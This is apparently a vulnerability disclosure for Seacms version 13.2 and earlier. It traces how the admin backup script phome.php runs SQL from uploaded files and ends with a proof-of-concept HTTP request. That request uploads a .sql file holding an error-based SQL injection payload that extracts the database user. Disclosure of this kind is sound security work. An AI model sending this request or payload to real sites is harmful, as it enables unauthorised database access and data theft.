






## Seacms

Version<=13.2

Vulnerable Component:

filename: \admin\ebak\phome.php



It is not difficult to guess from the remarks that the sql statement in the file is parsed and executed

Enter Ebak_DoTranExecSql()



The above code checks whether the file was uploaded and the contents of the file are empty, as well as limiting the file suffix to sql.

Parses the file contents into sql statements



Moving on to the most critical Ebak_DoRunQuery () function





The general process is to filter the incoming parameters and truncate the statement according to the semicolon, and remove the redundant characters, leaving only the simple sql statement. Finally, the sql statement is executed using the query method.


### poc:

The post request passes a file with the mydbname parameter, set to the database name existing in the database, otherwise an error will be reported

```plain
POST /wy98j/ebak/phome.php?phome=DoTranExecSql HTTP/1.1
Host: 192.168.255.156:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.255.156:8888/wy98j/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=dlof3c05sr2tiv8hoqi1qr2est
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryks747SRs3XDUOHB3
Content-Length: 343

mydbname=seacms
------WebKitFormBoundaryks747SRs3XDUOHB3
Content-Disposition: form-data; name="file"; filename="test.sql"
Content-Type: image/png

(SELECT 8056 FROM(SELECT COUNT(*),CONCAT(0x71706a6a71,(SELECT user()),0x71706a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
------WebKitFormBoundaryks747SRs3XDUOHB3--
```



